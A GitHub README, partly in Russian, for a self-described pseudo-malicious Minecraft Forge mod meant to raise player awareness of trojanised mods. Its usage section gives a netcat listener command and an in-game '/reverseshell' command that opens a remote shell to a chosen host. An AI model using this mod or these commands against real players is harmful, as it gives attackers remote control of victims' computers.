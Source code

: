 
## Description
Это псевдовредоносный Minecraft мод с декларируемыми пейлоадами, целью которого является демонстрация вредоносной активности под прикрытием мода и повышения осведомленности игроков. Не скачиваете случайные сборки :)  

![minecraft](https://github.com/user-attachments/assets/45707046-8636-4bbd-b61b-bcadfa3b18d2)


## Mod install
1. Install minecaft 1.7.10 and with Minecraft Forge 10.13.4.1614-1.7.10
2. Download jar file from release and place it in ```mods/``` folder.

## Usage
### reverse shell

```$> nc -lvnp targetPport``` in your console

```/reverseshell targetHost targetHort``` chat command

## Forge Dev Environment installation 
\# TODO :)

## Resources
* https://minecraft.fandom.com/ru/wiki/%D0%A1%D0%BE%D0%B7%D0%B4%D0%B0%D0%BD%D0%B8%D0%B5_%D0%BC%D0%BE%D0%B4%D0%B8%D1%84%D0%B8%D0%BA%D0%B0%D1%86%D0%B8%D0%B9_%D1%81_%D0%BF%D0%BE%D0%BC%D0%BE%D1%89%D1%8C%D1%8E_Forge/1.7%2B
* https://forum.mcmodding.ru/tags/1710/
* https://mcmodding.ru/1.7.10/preparation/install/
